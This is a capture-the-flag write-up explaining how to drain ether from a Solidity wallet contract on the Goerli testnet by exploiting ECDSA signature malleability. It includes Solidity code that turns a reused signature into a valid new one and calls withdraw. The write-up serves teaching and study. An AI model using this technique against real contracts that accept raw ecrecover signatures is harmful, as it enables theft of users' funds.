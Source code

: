 # Solidity challenge EtherWallet.sol

## The objective

The task is simple: Steal all ether from the contract.

## Overview

[EtherWallet.sol] is deployed at [0x4b90...f877](https://goerli.etherscan.io/address/0x4b90946ab87bf6e1ca1f26b2af2897445f48f877). Its a lightweight wallet contract, anyone can deposit ether and anyone with a valid signature can withdraw. There are only two state variables and two functions, `withdraw(bytes memory signature)` and `transferOwnership(address newOwner)`. `transferOwnership` is copied from OpenZeppelins Ownable contract.

Function `withdraw` expects a signature and checks if its signed by the owner of the contract:

```solidity
function withdraw(bytes memory signature) external {
  require(!usedSignatures[signature], "Signature already used!");
  require(
    ECDSA.recover(keccak256("\x19Ethereum Signed Message:\n32"), signature) ==
      owner,
    "No permission!"
  );
  usedSignatures[signature] = true;

  uint256 balance = address(this).balance;
  payable(msg.sender).transfer(balance);

  emit Withdraw(msg.sender, balance);
}

```

It stores all used signatures in a mapping, preventing signature replay attacks:

```solidity
mapping(bytes => bool) public usedSignatures;
```

## Vulnerability

The code of `EtherWallet.sol` itself is fine, there are no hidden vulnerabilites, so we have to dig deeper. `EtherWallet.sol` uses library `ECDSA` for its signature verificiation, specifically function `recover`:

```solidity
function recover(
  bytes32 hash,
  uint8 v,
  bytes32 r,
  bytes32 s
) internal pure returns (address) {
  // If the signature is valid, return the signer address
  address signer = ecrecover(hash, v, r, s);
  require(signer != address(0), "ECDSA: invalid signature");

  return signer;
}

```

To hack this contract, one has to understand how ECDSA signatures work: Ethereum signatures consists of three integers: `v`, `r` and `s`.

ECDSA uses elliptic curves, which are **symmetric over the x-axis**: `r` is related to the x coordinate of the elliptic curve, while `s` is related to
the y coordinate.

==> That means if `(r, s)` is a valid signature, `(r, n - s)` is valid too:

```
|| 0 1 2 s0 4 | 5 s1 7 8 n ||  <== s0=3 and s1=6 are both valid
```

We use `v` to find out which point to use, in Ethereum its either `0x1b` (27) for `s < n/2`, or `0x1c` (28) for `s > n/2`. For the secp256k1 curve used in Ethereum (and Bitcoin) `n` equals `0xfffffffffffffffffffffffffffffffebaaedce6af48a03bbfd25e8cd0364141`.

Battle tested contracts, like OpenZeppelin's ECDSA library, enforce that `s` is in the lower half, preventing the Signature malleability exploit. However, the built-in Ethereum function `ecrecover(hash, v, r, s)` does not. So, if theres an existing tx on the blockchain with values `v`, `r` and `s` we can simply compute the other valid `s` and adjust `v` accordingly, e.g. if `s < n/2`, compute `s_new = n - s` and change `v` from 27 to 28.

The `ECDSA` library used in this contract is similiar to OpenZeppelins library, but the important part, where it is enforced that `s` must be in the lower half, is removed.

## Exploit

Contract `EtherWallet` was deployed to the Goerli test network, see [Etherscan](https://goerli.etherscan.io/address/0x4b90946ab87bf6e1ca1f26b2af2897445f48f877).

After deployment, `withdraw` was called with signature `0x53e2bbed453425461021f7fa980d928ed1cb0047ad0b0b99551706e426313f293ba5b06947c91fc3738a7e63159b43148ecc8f8070b37869b95e96261fc9657d1c`.

To exploit the vulnerability, we first have to extract values `v`, `r` and `s` from the signature:

```solidity
(r, s, v) = _getSignature(
    hex"53e2bbed453425461021f7fa980d928ed1cb0047ad0b0b99551706e426313f293ba5b06947c91fc3738a7e63159b43148ecc8f8070b37869b95e96261fc9657d1c"
);

function _getSignature(bytes memory signature)
    internal
    pure
    returns (
        bytes32,
        bytes32,
        uint8
    )
{
    bytes32 r;
    bytes32 s;
    uint8 v;
    // ecrecover takes the signature parameters, and the only way to get them
    // currently is to use assembly.
    /// @solidity memory-safe-assembly
    assembly {
        r := mload(add(signature, 0x20))
        s := mload(add(signature, 0x40))
        v := byte(0, mload(add(signature, 0x60)))
    }
    return (r, s, v);
}
```

Then do the necessary calculations:

```solidity
if (v == 27) {
    bytes32 n = 0xfffffffffffffffffffffffffffffffebaaedce6af48a03bbfd25e8cd0364141;
    sNew = bytes32(uint256(n) - uint256(s));

    // set v to 28 since we now use s in the upper half
    vNew = 28;
} else {
    bytes32 n = 0xfffffffffffffffffffffffffffffffebaaedce6af48a03bbfd25e8cd0364141;
    sNew = bytes32(uint256(n) - uint256(s));

    // set v to 27 since we now use s in the lower half
    vNew = 27;
}
```

Equipped with our new signature, we just have to call `withdraw` again:

```solidity
bytes memory newSignature = abi.encodePacked(r, sNew, vNew);
(bool success, bytes memory ret) = address(etherwallet).call(
    abi.encodeWithSignature("withdraw(bytes)", newSignature)
);
```

See [ExploitEtherWallet.sol](../script/exploits/ExploitEtherWallet.sol) for full code.

## Further information

- [EtherWallet.t.sol](../test/EtherWallet.t.sol) test script setting up and exploiting the contract
- [More info](http://coders-errand.com/malleability-ecdsa-signatures/) about signature malleability
- [A closer look at Ethereum signatures](https://hackernoon.com/a-closer-look-at-ethereum-signatures-5784c14abecc)
- [Math behind elliptic curve cryptography](https://hackernoon.com/what-is-the-math-behind-elliptic-curve-cryptography-f61b25253da3)

See also [this article](https://stermi.xyz/blog/ethernautdao-ctf-etherwallet-solution) for a writeup from [StErMi](https://twitter.com/StErMi)
